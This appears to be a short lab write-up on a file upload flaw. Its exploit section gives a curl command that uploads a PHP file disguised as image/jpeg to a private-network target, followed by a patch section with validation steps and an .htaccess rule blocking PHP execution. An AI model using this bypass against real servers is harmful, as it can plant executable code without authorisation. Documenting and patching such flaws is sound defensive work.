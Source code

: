 🚨 **EXPLOIT**

The file upload feature accepts files based on their MIME type alone (e.g., image/jpeg).
`curl -X POST -F "uploaded=@php.php;type=image/jpeg" -F "Upload=Upload" 'http://192.168.38.130/?page=upload'`

---

✅ **PATCH**

1. Validate the File Extension in the backend
2. Check the MIME Type AND Content (Optional)
3. Change the file name (Optional)
4. Use .htaccess to Block Dangerous Execution

```
    # /uploads/.htaccess
    <FilesMatch "\.(php)$">
        Deny from all
    </FilesMatch>
```
